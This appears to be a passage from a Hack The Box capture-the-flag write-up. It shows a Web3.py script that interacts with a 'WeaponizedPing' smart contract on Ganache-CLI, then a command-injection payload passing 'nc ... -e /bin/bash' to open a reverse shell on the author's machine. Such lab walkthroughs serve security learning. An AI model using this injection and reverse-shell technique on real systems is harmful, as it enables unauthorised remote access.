 According to its GitHub [repository](https://github.com/trufflesuite/ganache),

> Ganache is your personal blockchain for Ethereum development.

After some reading and research, I got to know that `ganache-cli`, by default, automatically creates 10 accounts associated with 10 private keys. Each account has 100 ethers for testing purpose. It also exposes the [JSON RPC API](https://github.com/ethereum/wiki/wiki/JSON-RPC).

### Gaining a Foothold

We need something to interact with the WeaponizedPing contract deployed in Ganache-CLI.

Enter [Web3.py](https://github.com/ethereum/web3.py).

Towards that end, I wrote the following Python script.

<div class="filename"><span>weapon.py</span></div>

~~~~python
#!/usr/bin/env python3

from web3 import Web3, HTTPProvider
import json, sys

contract_data = json.loads(open('WeaponizedPing.json').read())
contract_addr = open('address.txt').read().rstrip()

w3 = Web3(HTTPProvider('http://10.10.10.142:9810'))
account = w3.eth.coinbase

weapon = w3.eth.contract(address=contract_addr, abi=contract_data['abi'])
weapon.functions.setDomain(sys.argv[1]).transact({"from":account,"to":contract_addr})
weapon.functions.getDomain().call()
~~~~

To test it out, I set up `tcpdump` to listen on `tun0` for any ICMP traffic. In a separate terminal, run `./weapon.py <my_htb_ip>`.


{% include image.html image_alt="3ee3bf3f.png" image_src="/afed0d3b-b74b-4f99-8d42-555a7a86536d/3ee3bf3f.png" %}


Exactly one `ping` request is seen. I think I know what's going on here. Let's do it this way then.

```
# ./weapon.py '; nc 10.10.14.122 1234 -e /bin/bash'
```


{% include image.html image_alt="183b8df7.png" image_src="/afed0d3b-b74b-4f99-8d42-555a7a86536d/183b8df7.png" %}


Bam. A reverse shell appears!

## Low-Privilege Shell

Now that we have a low-privilege shell, it's time to find `user.txt`.


[1]: https://www.hackthebox.eu/home/machines/profile/193
[2]: https://www.hackthebox.eu/home/users/profile/41600
[3]: https://www.hackthebox.eu/home/users/profile/37317
[4]: https://www.hackthebox.eu/
